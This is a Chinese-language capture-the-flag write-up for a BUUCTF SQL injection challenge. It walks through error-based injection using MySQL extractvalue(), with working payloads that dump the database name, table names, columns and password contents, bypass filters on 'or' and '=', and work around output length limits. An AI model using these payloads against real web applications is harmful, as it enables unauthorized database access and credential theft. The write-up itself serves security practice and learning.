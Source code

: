 ### ^ 代替 or

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/6848e66a58cb8da5c842e442.jpg)

初次尝试万能密码登录成功，说明闭合为单引号

![](https://pic1.imgdb.cn/item/6848e79b58cb8da5c842f049.jpg)

`extractvalue()` 是 **MySQL 的 XML 函数**，用于从 XML 字符串中提取数据

```sql
# xml_fragment：一个合法的 XML 结构体（字符串格式）
# xpath_expression：XPath 表达式，用于从 XML 中定位并提取节点或属性值
EXTRACTVALUE(xml_fragment, xpath_expression)
```

第一个参数肯定会报错，所以我们将 `database()` 放在中间，这样就会执行显示出数据库名

可以再加上 `concat()` 函数将显示内容包裹起来，`0x7e` 即波浪号 `~`

```sql
1'^extractvalue(1,concat(0x7e,(select(database()))))#
```

![](https://pic1.imgdb.cn/item/68495faa58cb8da5c8450122.jpg)

接下来就是爆表，这里注意 `=` 被过滤了使用 `like` 代替

```sql
1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))#
```

![](https://pic1.imgdb.cn/item/6849601f58cb8da5c84503d9.jpg)

接下来爆字段

```sql
1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))#
```

![](https://pic1.imgdb.cn/item/6849604658cb8da5c8450538.jpg)

查字段内容

```sql
1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))))#
```

![](https://pic1.imgdb.cn/item/6849608258cb8da5c845079a.jpg)

使用 `right()` 突破字符限制

```sql
1'^extractvalue(1,right(concat(0x7e,(select(group_concat(password))from(H4rDsq1))),30))#
```

![](https://pic1.imgdb.cn/item/6849608e58cb8da5c8450840.jpg)